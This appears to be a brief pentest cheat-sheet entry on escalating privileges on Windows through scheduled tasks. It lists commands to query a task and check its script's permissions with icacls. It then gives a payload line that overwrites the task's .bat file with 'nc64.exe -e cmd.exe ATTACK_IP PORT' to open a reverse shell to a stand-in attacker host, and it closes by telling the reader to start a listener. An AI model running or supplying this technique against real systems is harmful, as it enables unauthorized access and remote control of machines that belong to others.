 # Scheduled Tasks

## Example:

    Schtasks /query /tn vulntask /fo list /v

### Worth checking: Task to run, run as user.

    icacls c:\tasks\schtasks.bat (example)

#### Check file permissions on the executable. 

#### If our user has full access (f) or writing permissions, we insert the payload like:

    echo c:\tools\nc64.exe -e cmd.exe ATTACK_IP PORT > C:\tasks\schtasks.bat

### Start a listener, then you got yourself a shell!
